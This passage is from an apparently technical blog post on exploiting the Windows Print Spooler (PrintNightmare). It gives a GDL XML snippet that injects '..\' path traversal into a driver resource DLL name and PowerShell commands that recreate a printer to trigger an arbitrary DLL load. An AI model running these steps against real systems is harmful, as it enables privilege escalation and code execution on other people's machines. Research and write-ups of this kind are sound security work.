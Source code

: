 This GDL file is parsed when creating a printer that uses this driver. Since we have `Full Control`, we can modify it, and inject `..\` characters to perform a basic path traversal attack, as shown below.

```xml
<CONSTRUCT Name="*Option" Instance="COMMON_RESDLL">
    <GDL_ATTRIBUTE Name="*Name" xsi:type="GDLW_string">..\..\..\..\..\..\foo123.DLL</GDL_ATTRIBUTE>
</CONSTRUCT>
```

Next, we need to remove our previously created printer, because we want to coerce the Print Spooler service to recreate it using this modified version of the GDL file.

```powershell
# Remove the previously created printer.
Remove-WinSpoolPrinter -PrinterHandle $PrinterHandle
Close-WinSpoolPrinter -PrinterHandle $PrinterHandle
# Create the dummy printer again to trigger the arbitrary DLL load.
$PrinterHandle = Add-WinSpoolPrinter -PrinterInfo $PrinterInfo
Remove-WinSpoolPrinter -PrinterHandle $PrinterHandle
Close-WinSpoolPrinter -PrinterHandle $PrinterHandle
```

Using Process Monitor in the background, we can see that the driver installer indeed tries to access the file `C:\foo123.dll`, which does not exist in this case, but you get the point. By adjusting the path, we will be able to make it load a DLL from an arbitrary location.

![Triggering an arbitrary DLL load](/assets/posts/2024-01-28-printnightmare-exploitation/18_add-printer-procmon-dll-path-traversal.png)
_Triggering an arbitrary DLL load_
